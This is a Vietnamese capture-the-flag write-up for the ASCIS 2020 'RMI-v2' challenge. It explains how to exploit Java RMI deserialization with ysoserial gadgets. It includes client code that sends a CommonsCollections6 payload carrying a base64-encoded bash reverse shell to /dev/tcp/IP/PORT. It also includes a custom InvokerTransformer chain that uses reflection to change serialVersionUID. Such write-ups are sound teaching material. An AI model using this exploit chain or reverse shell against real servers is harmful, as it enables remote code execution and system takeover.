 # Step 1:
Dựa vào hint của tác giả với blog <a href="https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/">này</a> có thể sử dụng gadget CommonsCollections6 để khai thác. Chỉnh sửa lại client lại 1 chút để gửi payload.

```
public static void main(String[] args) throws Exception {
        String serverIP = "IP";
        int serverPort = Integer.parseInt("PORT");
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        Object payload = new CommonsCollections6().getObject("bash -c {echo,BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)}|{base64,-d}|{bash,-i}");
        System.out.println(ascisInterf.login(payload));
    }
```
Nhận được exception như dưới:
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/vul1.png">
Dựa vào đây biết được tác giả đã đổi biến static final serialVersionUID thành -1333713373713373737L.
# Step 2:
Sử dụng java reflection để thay đổi biến static final lại thành -1333713373713373737L là xong.
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/image_2020-11-02_17-29-08.png">
# Note:
Sau khi bruteforce class của ysoserial thì còn có thể sử dụng CommonsCollections5
# Explaint
* Dự vào writeup bài 1 của <a href="https://github.com/vinhjaxt/CTF-writeups/issues/2">Vịnh</a> thì ta biết được để làm v2 trước tiên phải bruteforce class lấy trong ysoserial. Để bruteforce thì ta sẽ sử dụng GadgetProbe để tìm các classpath có tồn tại trên server, nếu không có sẽ đẩy ra ClassNotFoundException và không có DNS request, nếu có sẽ có DNS trả về.
* Lần lượt bỏ các classpath của từng gadget vào, mình và một người anh cựu sinh viên chung trường - Mr.S tìm được có 3 gadget trong ysoserial có đủ tất cả các classpath trả DNS về là URLDNS, CommonsCollections5, CommonsCollections6. Bọn mình chỉ fuzz tới đây đã thấy có đủ điều kiện để exploit rồi nên không fuzz tiếp mà bỏ gadget vào chạy luôn.
* Sau khi bỏ gadget vào client và gửi cho server như trên, thì bọn mình thu được InvalidClassExeption như hình trên. Trong Exeption có ghi 2 serialVersionUID của class InvokerTransformer, và khi kiểm tra thì biến static final serialVersionUID -86533...688 đó nằm trong class InvokerTransformer của mình. Từ đó mình khá chắc là serialVersionUID -1337... còn lại là nằm trên server. Việc của mình chỉ cần thay đổi biến này thành UID như trên server là xong.
* Để thay đổi giá trị của biến final, bọn mình sử dụng java reflection dựa trên một <a href="https://viblo.asia/p/java-va-nhung-dieu-thu-vi-co-the-ban-chua-biet-LzD5dJeOZjY">đường dẫn</a>, có tiếng việt luôn nên mọi chuyện cực kì dễ dàng.
* Do trình còi nên bọn mình custom lởm chởm gadget như sau:
```
	InvokerTransformer in1 = new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] });
        Field fieldA = in1.getClass().getDeclaredField("serialVersionUID");
        fieldA.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(fieldA, fieldA.getModifiers()&~Modifier.FINAL);
        fieldA.set(in1,-1333713373713373737L);

        InvokerTransformer in2 = new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] });
        Field fieldB = in2.getClass().getDeclaredField("serialVersionUID");
        fieldB.setAccessible(true);
        Field modifiersFieldB = Field.class.getDeclaredField("modifiers");
        modifiersFieldB.setAccessible(true);
        modifiersFieldB.setInt(fieldB, fieldB.getModifiers()&~Modifier.FINAL);
        fieldB.set(in2,-1333713373713373737L);

        InvokerTransformer in3 =new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs);
        Field fieldC = in3.getClass().getDeclaredField("serialVersionUID");
        fieldC.setAccessible(true);
        Field modifiersFieldC = Field.class.getDeclaredField("modifiers");
        modifiersFieldC.setAccessible(true);
        modifiersFieldC.setInt(fieldC, fieldC.getModifiers()&~Modifier.FINAL);
        fieldC.set(in3,-1333713373713373737L);

        final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            in1,
            in2,
            in3,
            new ConstantTransformer(1) };
```
* Xong gadget, sửa lại client như trên rồi gửi lên server để reverse shell về máy là xong.
